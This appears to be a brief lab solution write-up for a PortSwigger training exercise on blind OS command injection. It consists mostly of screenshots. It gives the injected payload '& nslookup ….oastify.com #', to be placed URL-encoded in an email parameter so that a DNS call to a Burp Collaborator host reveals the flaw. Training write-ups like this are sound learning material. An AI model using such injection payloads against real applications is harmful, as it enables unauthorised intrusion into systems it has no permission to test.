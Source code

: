## Lab Description: Blind OS command injection with out-of-band interaction

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ebaa0fef-61b9-445a-91dc-c84a41b7c992)
 
## Solution: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/028e0ff1-6323-4f8e-ac1c-17f2e6d6d518)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9ed375c7-64af-4454-905f-22f0481bd921)


Copy the collaborator server link - `& nslookup v51yzmjhb2rq05hymmqsvpa9g0mraiy7.oastify.com #`

Paste the payload `& nslookup v51yzmjhb2rq05hymmqsvpa9g0mraiy7.oastify.com #` (URL - encode ) in the email parameter .

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c1d00a38-30bf-42d3-88a7-e4fed1ae9e10)

After URL Encoding 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8fbf5538-24fb-4d13-af78-2859d0ba1732)

Now click SEND button, click POLL NOW button in burp collaborator` ,

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/15dca145-f198-47f9-9118-cc3e22734f02)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f1913cba-b8eb-4b7c-9537-067036f2b370)

